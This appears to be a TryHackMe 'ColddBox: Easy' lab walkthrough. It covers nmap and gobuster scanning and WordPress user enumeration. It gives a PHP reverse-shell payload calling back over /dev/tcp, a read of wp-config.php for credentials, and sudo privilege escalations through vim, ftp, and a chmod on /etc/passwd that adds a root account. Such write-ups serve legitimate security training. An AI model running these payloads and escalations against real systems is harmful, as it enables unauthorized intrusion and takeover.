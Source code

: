 # ColddBox: Easy

**Room Link:** [https://tryhackme.com/room/colddboxeasy](https://tryhackme.com/room/colddboxeasy)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (9) (11).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

port 4512 found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (16).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (13) (10).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wpscan --url http://$VICTIM/ --enumerate u
```



<figure><img src="../../.gitbook/assets/image (5) (12).png" alt=""><figcaption></figcaption></figure>



```
Username: c0ldd
Password:  9876543210
```



## Reverse Shell

revshell code

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```



<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 443
```



Then just go to a page that doesn't exist, in this case p=1 existed but p=2 did not.

<figure><img src="../../.gitbook/assets/image (14) (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat /var/www/html/wpconfig.php
```

<figure><img src="../../.gitbook/assets/image (10) (5).png" alt=""><figcaption></figcaption></figure>



### TCP/4512 - SSH

**Victim**

```
ssh c0ldd@$VICTIM -p 4512
Password: cybersecurity
```

<figure><img src="../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation Option 1 - VIM

**Victim**

```
sudo -l
sudo vim -c ':!/bin/sh'
```

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation Option 2 - FTP

**Victim**

```
sudo ftp
!/bin/sh
```

<figure><img src="../../.gitbook/assets/image (6) (5).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation Option 3 - chmod

**Victim**

```
ls -lah /etc/passwd
LFILE=/etc/passwd
sudo chmod 6777 $LFILE
ls -lah /etc/passwd
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

**Victim**

```
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

























































































